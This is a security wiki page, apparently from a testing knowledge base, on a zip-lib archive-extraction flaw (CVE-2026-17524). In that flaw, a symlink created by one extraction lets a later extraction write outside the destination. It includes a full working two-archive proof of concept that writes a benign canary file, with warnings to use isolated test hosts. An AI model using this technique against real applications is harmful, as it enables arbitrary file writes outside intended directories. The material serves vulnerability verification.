

repository: bastet-ai/skillz-wiki · page: alerts/2026-07-28-zip-lib-multi-stage-symlink-boundary-ghsa/index.html · generator: mkdocs

---
title: zip-lib multi-stage symlink and path-prefix extraction boundary
---

# zip-lib multi-stage symlink and path-prefix extraction boundary

GHSA-73hr-7685-xwj3 / CVE-2026-17524 exposes a reusable archive-testing pattern: one extraction creates a directory symlink, then a later extraction into the same destination writes through that persisted link. The first fix added real-path checks for existing symlink directories, but compared paths as raw string prefixes. A sibling directory whose name begins with the extraction root can therefore be mistaken for a child until the comparison is made component-aware.

Sources:

- [GHSA-73hr-7685-xwj3 / CVE-2026-17524](https://github.com/advisories/GHSA-73hr-7685-xwj3)
- [zip-lib issue 14: multi-archive symlink write](https://github.com/fpsqdb/zip-lib/issues/14)
- [Initial symlink-folder fix](https://github.com/fpsqdb/zip-lib/commit/0c29b1e17050f2611f4f37e6aaa92a60b3cb89d5)
- [Component-aware follow-up fix](https://github.com/fpsqdb/zip-lib/commit/7263fa93daa96d940ab48050311d76c923525ba7)
- [zip-lib 1.2.1 release](https://github.com/fpsqdb/zip-lib/releases/tag/v1.2.1)
- [NVD record for CVE-2026-17524](https://nvd.nist.gov/vuln/detail/CVE-2026-17524)

The unreviewed GHSA published on July 28 says versions before `1.1.0` are affected. A disposable Linux fixture run for this page reproduced an outside-root marker write in `1.0.0`, `1.1.0`, `1.1.1`, `1.1.2`, and `1.2.0` when the outside directory was a lexical sibling-prefix of the extraction root. The same fixture was rejected by `1.2.1` through `1.4.0`. Treat that as a precise tested representation, not a replacement affected-range claim: record the installed artifact, platform, options, destination spelling, symlink target, and fixed-build control in every report.

!!! warning "Disposable extraction root only"
    Run this only in a temporary directory on an isolated Linux test host. Use one benign text marker and a sibling directory created for the test. Never target home directories, application roots, package hooks, startup files, credentials, or executable paths. Do not run untrusted archives on production systems.

## Preconditions and inputs

Confirm all of these before testing:

- the application invokes `zip-lib` extraction on attacker-controlled or tenant-controlled ZIP content;
- two or more archives, jobs, retries, or resumptions can reuse one destination directory;
- symlink entries are materialized on the tested platform and extraction options do not intentionally store them as ordinary files;
- the process can create symlinks and write to the selected disposable sibling directory;
- the exact package version and resolved package tree are captured with `npm list zip-lib --depth=0`;
- the test destination contains no real application or user data.

Package presence alone is not enough. The exploit path is **persistent extraction destination + symlink-bearing first stage + later descendant entry + final canonical path outside the destination**.

## Build a marker-only two-stage fixture

The following creates `out/` and its sibling `outside/`. The first archive contains only `pivot -> ../outside`; the second contains only `pivot/proof.txt`. The payload is a fixed benign string.

```bash
mkdir zip-lib-boundary-lab
cd zip-lib-boundary-lab
npm init -y
npm install zip-lib@1.0.0

mkdir out outside
python3 - <<'PY'
import stat
import zipfile

with zipfile.ZipFile("stage1.zip", "w", zipfile.ZIP_DEFLATED) as archive:
    entry = zipfile.ZipInfo("pivot")
    entry.create_system = 3
    entry.external_attr = (stat.S_IFLNK | 0o777) << 16
    archive.writestr(entry, "../outside")

with zipfile.ZipFile("stage2.zip", "w", zipfile.ZIP_DEFLATED) as archive:
    archive.writestr("pivot/proof.txt", "ZIP_LIB_BOUNDARY_CANARY\n")
PY

cat > run.js <<'JS'
const zl = require("zip-lib");

(async () => {
  await zl.extract("stage1.zip", "out", { symlinkAsFileOnWindows: false });
  await zl.extract("stage2.zip", "out", { symlinkAsFileOnWindows: false });
})().catch((error) => {
  console.error(`${error.name}:${error.message}`);
  process.exit(2);
});
JS

node run.js
test -f outside/proof.txt
sha256sum outside/proof.txt
```

For the exact marker above, the expected SHA-256 is:

```text
f70741a799a13633f10b3103dbc76e563241ab364d0a6a94491dcbd6e2aa5fde
```

Capture the archive listings, `lstat`/`realpath` of `out/pivot`, destination and sibling paths, process exit code, marker hash, and filesystem write trace. Do not retain a reusable hostile archive after the engagement.
